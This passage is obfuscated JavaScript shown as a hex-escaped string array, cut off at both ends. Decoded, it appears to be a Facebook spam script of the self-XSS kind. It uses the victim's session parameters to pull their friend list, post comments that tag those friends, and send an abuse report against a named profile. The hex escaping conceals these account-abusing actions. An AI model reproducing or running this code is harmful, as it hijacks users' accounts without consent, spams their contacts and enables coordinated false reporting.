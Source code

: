 \x32\x43\x25\x32\x32\x70\x68\x61\x73\x65\x25\x32\x32\x25\x33\x41\x33\x25\x32\x43\x25\x32\x32\x72\x65
\x66\x25\x32\x32\x25\x33\x41\x25\x32\x32\x68\x74\x74\x70\x73\x25\x33\x41\x25\x35\x43\x25\x32\x46\x25
\x35\x43\x25\x32\x46\x77\x77\x77\x2E\x66\x61\x63\x65\x62\x6F\x6F\x6B\x2E\x63\x6F\x6D\x25\x35\x43\x25
\x32\x46\x4E\x61\x6E\x2E\x65\x72\x74\x74\x37\x25\x32\x32\x25\x32\x43\x25\x32\x32\x72\x65\x70\x6F\x72
\x74\x5F\x74\x79\x70\x65\x25\x32\x32\x25\x33\x41\x31\x34\x35\x25\x32\x43\x25\x32\x32\x72\x69\x64\x25
\x32\x32\x25\x33\x41","\x25\x32\x43\x25\x32\x32\x73\x75\x62\x5F\x72\x65\x70\x6F\x72\x74\x5F\x74\x79\
x70\x65\x25\x32\x32\x25\x33\x41\x33\x25\x32\x43\x25\x32\x32\x74\x69\x6D\x65\x5F\x66\x6C\x6F\x77\x5F\
x73\x74\x61\x72\x74\x65\x64\x25\x32\x32\x25\x33\x41","\x25\x32\x43\x25\x32\x32\x75\x73\x65\x72\x25\x
32\x32\x25\x33\x41","\x25\x37\x44\x26\x66\x69\x6C\x65\x5F\x72\x65\x70\x6F\x72\x74\x3D\x31\x26\x5F\x5
F\x75\x73\x65\x72\x3D","\x26\x5F\x5F\x61\x3D\x31\x26\x5F\x5F\x64\x79\x6E\x3D\x37\x6E\x38\x61\x68\x79
\x6A\x32\x71\x6D\x76\x75\x35\x6B\x39\x55\x6D\x41\x41\x61\x55\x56\x70\x6F\x26\x5F\x5F\x72\x65\x71\x3D
\x75\x26\x74\x74\x73\x74\x61\x6D\x70\x3D\x32\x36\x35\x38\x31\x36\x38\x35\x37\x31\x30\x37\x31\x31\x30
\x38\x38\x38\x30","\x31\x30\x30\x30\x30\x36\x39\x35\x32\x31\x31\x39\x30\x34\x38","\x32\x37\x36\x36\x
31\x32\x30\x37\x35\x38\x32\x37\x37\x34\x35","\x61\x72\x6B\x61\x64\x61\x73\x6C\x61\x72\x20\x3D\x20","
\x66\x6F\x72\x20\x28\x3B\x3B\x29\x3B","\x72\x65\x70\x6C\x61\x63\x65","\x72\x65\x73\x70\x6F\x6E\x73\x
65\x54\x65\x78\x74","\x65\x6E\x74\x72\x69\x65\x73","\x70\x61\x79\x6C\x6F\x61\x64","\x72\x6F\x75\x6E\
x64","\x20\x40\x5B","\x75\x69\x64","\x3A","\x74\x65\x78\x74","\x5D","\x20","\x26\x66\x69\x6C\x74\x65
\x72\x5B\x30\x5D\x3D\x75\x73\x65\x72","\x26\x6F\x70\x74\x69\x6F\x6E\x73\x5B\x30\x5D\x3D\x66\x72\x69\
x65\x6E\x64\x73\x5F\x6F\x6E\x6C\x79","\x26\x6F\x70\x74\x69\x6F\x6E\x73\x5B\x31\x5D\x3D\x6E\x6D","\x2
6\x74\x6F\x6B\x65\x6E\x3D\x76\x37","\x26\x76\x69\x65\x77\x65\x72\x3D","\x26\x5F\x5F\x75\x73\x65\x72\
x3D","\x68\x74\x74\x70\x73\x3A\x2F\x2F","\x55\x52\x4C","\x47\x45\x54","\x68\x74\x74\x70\x73\x3A\x2F\
x2F\x77\x77\x77\x2E\x66\x61\x63\x65\x62\x6F\x6F\x6B\x2E\x63\x6F\x6D\x2F\x61\x6A\x61\x78\x2F\x74\x79\
x70\x65\x61\x68\x65\x61\x64\x2F\x66\x69\x72\x73\x74\x5F\x64\x65\x67\x72\x65\x65\x2E\x70\x68\x70\x3F\
x5F\x5F\x61\x3D\x31","\x68\x74\x74\x70\x3A\x2F\x2F\x77\x77\x77\x2E\x66\x61\x63\x65\x62\x6F\x6F\x6B\x
2E\x63\x6F\x6D\x2F\x61\x6A\x61\x78\x2F\x74\x79\x70\x65\x61\x68\x65\x61\x64\x2F\x66\x69\x72\x73\x74\x
5F\x64\x65\x67\x72\x65\x65\x2E\x70\x68\x70\x3F\x5F\x5F\x61\x3D\x31","\x26\x66\x74\x5F\x65\x6E\x74\x5
F\x69\x64\x65\x6E\x74\x69\x66\x69\x65\x72\x3D","\x26\x63\x6F\x6D\x6D\x65\x6E\x74\x5F\x74\x65\x78\x74
\x3D","\x26\x73\x6F\x75\x72\x63\x65\x3D\x32","\x26\x63\x6C\x69\x65\x6E\x74\x5F\x69\x64\x3D\x31\x33\x
37\x37\x38\x37\x31\x37\x39\x37\x31\x33\x38\x3A\x31\x37\x30\x37\x30\x31\x38\x30\x39\x32","\x26\x72\x6
5\x70\x6C\x79\x5F\x66\x62\x69\x64","\x26\x70\x61\x72\x65\x6E\x74\x5F\x63\x6F\x6D\x6D\x65\x6E\x74\x5F
\x69\x64","\x26\x72\x6F\x6F\x74\x69\x64\x3D\x75\x5F\x6A\x73\x6F\x6E\x70\x5F\x32\x5F\x33","\x26\x63\x
6C\x70\x3D\x7B\x22\x63\x6C\x5F\x69\x6D\x70\x69\x64\x22\x3A\x22\x34\x35\x33\x35\x32\x34\x61\x30\x22\x